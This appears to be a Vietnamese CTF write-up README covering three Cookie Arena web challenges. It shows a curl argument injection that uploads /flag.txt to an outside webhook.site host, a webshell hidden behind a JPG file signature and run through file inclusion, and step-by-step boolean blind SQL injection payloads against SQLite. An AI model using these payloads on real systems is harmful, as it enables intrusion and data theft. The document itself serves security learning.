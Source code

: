 # CTF_cookie-Arena
## Challenges CTF cookie arena with me

## Mục lục
- [Baby Crawler](#1-Baby-Crawler)
- [Baby File Inclusion](#2-Baby-File-Inclusion)
- [Simple Blind SQL Injection](#3-Simple-Blind-SQL-Injection)

## 1 Baby Crawler

Writeup đầu tiên trong CTF_cookie-Arena này là challenge Baby Crawler với mình thì bài này không quá khó nhưng cũng làm tốn kha khá thời gian của mình và bắt đầu nào :>>
truy cập vào đường dẫn thử thách ta có giao diện chính của web với nút CRAWL và 1 đường link đến https://vnexpress.net/viet-nam-xuat-khau-sang-my-latinh-mot-ty-usd-moi-thang-4541275.html khi bấm nút CRAWL web sẽ hiển thị 1 đường dẫn Cached File: như hình sau:
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/30ae0633-365c-4d7a-84cf-a44bf2f39971)
truy cập vào thì nó sẽ dẫn ta đến trang chưa nội dung của bài báo. Sau khi tìm hiểu chức năng cũng như cách hoạt động của web mình thử view-source xem có kiếm được source code hoặc đường dẫn ẩn nào không thì đập vào mắt mình là /?debug
![Screenshot 2024-06-12 000915](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/2764819a-475b-4c8e-9deb-520bf6969fcb) 
sau khi truy cập ?debug thì mình đã có được source của bài này

Sau khi đọc source code thì mình đã chú ý đến đoạn sau

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/13979d67-2497-46a2-b74e-03602dd6c598)

Có thê thấy trong code biến $url là untrusted data được đưa vào 1 hàm nguy hiểm như shell_exec xử lý. Đến đây việc còn lại là khai thác lỗi  Command Injection và làm sao để khai thác nó. Để thao túng được biến url ta phải dảm bảo 2 điều kiện 
1 là bắt đầu là http do strpos sẽ kiễm tra chuỗi nhập có bắt đầu là http không 
2 là được filter bởi hàm **escapeshellcmd** thì trong PHP escapeshellcmd sẽ thoát khỏi các kí tự (& # ; `| * ? ~ < > ^ ( ) [ ] { } $ \ , \ x0A and \xFF . ' và ")

Nhận thấy curl được nối chuỗi với phần escapeshellcmd($url) mình đã thử nhiều cách nhưng vẫn không thu được kêt quả gì do vướng escapeshellcmd . Bỏ qua hướng tiếp cận bằng && ; thì mình thử tìm hiểu coi curl có thể làm được gì thì mình đã tìm ra được curl có cho phép mình gửi nội dung của file tới một server ngoài bằng -F (ex: curl -F "file=@/path/to/example.txt" https://api.example.com/upload). Tìm ra hướng đi mình bắt đầu thử nghiệm nó và server ngoài mình chọn để dùng là webhook.site và thực hiện input sau: https://webhook.site/1560d9e5-0482-4a96-b3d0-d1583a783b90 -F "file=@/flag.txt"
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f7f80235-6165-4d2b-911d-8740724ab665) và ngay lập tức webhook mình nhận được gói tin
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/5c815677-e450-42f5-89b2-a6818746e1e0) lúc này mình chỉ cần download file chứa flag là xong

* ### 2 Baby File Inclusion

bài thứ 2 trong CTF_cookie-Arena này là challenge Baby File Inclusion
Yêu cầu của thử thách này là làm sao tạo ra được webshell để đọc được file flagxxx.txt trong hệ thống và đây là giao diện của lab gồm button cho mình tìm và tải file từ máy lên và 1 button để upload nó lên 
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/1960da91-d9cf-4b65-8f9a-2ba2b014c243)
mình thử uploads 1 file hình ảnh lên thì mình có được 1 đường dẫn là uploads/download.jpg để xem hình ảnh
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/c3e1bdc5-16f0-4031-8dc8-ef18497cff15)

Tiếp theo mình thử upload 1 file có tên test.txt thì nhận lại thông báo "Sorry, the file extension 'txt' is not allowed"

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/22bfad3e-6ddd-45ca-a5ed-c19aa8e38266)

từ đó mình có thể đoán ra nó chỉ cho phép gửi file có đuôi là jpg hoặc png . Mình liền thử gửi lại nó qua burp-suite giữ lại đuôi file là .jpg thay đổi Content-Type sang image/jpeg nhưng sửa lại nội dung là phpinfo(); để xem có được không thì ăn ngay cái thông báo "Sorry, this content type is not allowed"
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/2b017c26-f459-46b3-a112-fd16ad26e276)

hum.... cho các bạn chưa biết thì trong PHP Các loại file khác nhau sẽ được xác định bằng một vài byte đầu tiên của file, gọi là file signature. Nó sẽ đọc các byte đầu tiên của tệp và so sánh chúng với cơ sở dữ liệu chữ ký để xác định loại MIME của tệp nếu khớp thì nó sẽ coi như file đó hợp lệ !!!!!
Có được kiến thức này thì bài lab này sẽ chỉ là 1 cái bánh chờ ta ăn thôi hahaha 
Việc cần làm lúc này là mình chỉ cần google tìm file signature của jpg copy nó vào trước webshell và uploads nó lên thôi (^.^)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f40b2ce1-f6a9-4829-a7e1-0eefad759e5b)
Ở đây mình tận dụng lại request lúc đầu xóa phần nội dung chỉ giữ lại cái file signature và chèn webshell "phpinfo()" để test thì đã thấy file haha.jpg được tải lên thành công giờ vào thử uploads/haha.jpg để xem web có chạy shell mà mình up lên không nhé
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/ac339ebc-5658-4b49-936c-7704cb439e31)
kết quả không như mình tính toán nhỉ sau 1 lúc thì mình có để ý đuôi của URL của web có đoạn index.php?page=upload.php vậy nếu mình đổi upload.php sang uploads/haha.jpg thì sao ???
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/16081811-b5be-4fae-9a74-0c419c48e34b)
Vậy là thành công rồi việc bây giờ là đổi shell để đọc được file flagxxx.txt (à mỗi lần up shell nhớ đổi tên file nha tại web sẽ không nhận file nhận lại file đã có ) và đây là cách mình làm
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/16bf265b-b4b7-4dd5-a1ec-703b8e5ec217)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/ad0d9eff-3445-472a-9b92-b14994e3d9c1)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/682f5f4e-f597-4f2e-97de-866d89d9670c)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/dc223cf1-c094-41d3-84ab-222f55609eec)


* ### 3 Simple Blind SQL Injection

Đến với bài 3 với yêu cầu là login account: admin ở /login để lấy flag và được biết password chỉ chứa các kí tự [a-z0-9_] truy cập vào lab tao có 1 trang sau 
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/eca518e5-11a8-47bb-82b4-1d545455c2e9)

như hình thì ta có 1 vị trí để nhập và kiễm tra UID có tồn tại hay không nếu có thì sẽ thông báo "User uid exixsts" nếu không "User uid not Found!" mình thử nhập UID với admin và adminn
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/12f12632-e06a-4bd0-9f63-86a8d82fda37)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/86274607-dba5-4feb-8205-c0b462ffa58b)


sau khi hiểu chức năng của uid mình thử " và ' xem có error xảy ra không thì với dấu nháy kép (") không xảy ra gì nhưng nháy đơn (') web hiện lên error. Trong error ta biết web sử đụng sqlite3 và chú ý đến dòng nrows = 1 if query_db("SELECT * FROM users WHERE uid ='%s'" % uid, one=True) else 0 ở đây t biết query lấy trực tiếp biện uid để chèn trực tiếp vào query sql và chắc chắn nó bị sql injection kết hợp với dữ kiện web chỉ trả về "User uid exixsts" nếu không "User uid not Found!" nên mình biết đây là boolean SQL Injection

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/6a991447-a3fc-4703-9031-63533e0bb238)

Sau khi xác định là boolean SQL Injection bây giờ mình sẽ tiến hành thực hiện khai thác nó với các bước sau:
  - Đầu tiên mình cần xác định table nơi chứa account và password của admin nhưng từ truy vấn "SELECT * FROM users WHERE uid ='%s'" mình có thể xác định luôn table tên users và 1 column tên uid
  - bước hai minh cần xác định số column trong table users ở đây mình viết ra 1 query hoàn chỉnh sau: SELECT * FROM users WHERE uid = 'admin' AND ((SELECT COUNT(*) FROM pragma_table_info('users')) > 1) -- rồi lấy admin' AND ((SELECT COUNT(*) FROM pragma_table_info('users')) > 1) -- để chèn vào phần uid ở đây mình bắt đầu thử từ 1 và tăng lên từ từ vì biết chắc nó có ít nhất 2 column 1 cái là uid chứa account sau khi thử với 3 thì kết quả trả not found => table 'users' này có 3 column
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/98e725d3-ddd0-4dc1-ba20-0db0ebb60f1f)
  - bước ba xác định số kí tự trong tên column với query sau: SELECT * FROM users WHERE uid = 'admin' AND ((SELECT LENGTH(name) FROM pragma_table_info('users') LIMIT 1 OFFSET 0) > 1) -- tương tự như bước 2 và lặp lại nhưng thay OFFSET bằng 1 để bỏ qua column đầu tiên mới check => tìm ra số kí tự của cả 3 column là 3 kí tự (trong đó 1 column là uid )
  - bước bốn tìm tên column chứa password với query sau : SELECT * FROM users WHERE uid = 'admin' AND (SELECT (SUBSTR((SELECT name FROM pragma_table_info('users') LIMIT 1 OFFSET 1), 1, 1) = 'a') = 1 )-- vì số kí trong tên column là 3 nên mình chỉ cần brute force kí tự thôi có thể dùng intruder trong burp-suite nhưng mình sẽ viết script python để thực hiện nhanh hơn (nghèo không có tìn mua bản pro T_T) script brute-foce_column.py mình có để file các bạn có thể tham khảo chạy xong thì mình được có được tên của 3 colun là idx,uid,upw như hình
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f2f2bb6a-1e80-480a-ae6b-9b6badb50842)
  - bước năm thực hiện brute-force truy vấn mật khẩu của admin thôi nhưng trước hết thì cứ viết query trước đã : SELECT * FROM users WHERE uid = 'admin' AND (SELECT (SUBSTR((SELECT upw FROM users WHERE uid = 'admin'),1,1) = 'a') = 1 ) -- bây giờ giống như bước bốn mình sẽ sửa lại script đã viết trước đó (phần script sửa tên brute-foce_password.py) chạy script thì ra liền password nha login là có flag
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/7418e55e-e36c-450b-ad22-6204e06085db)





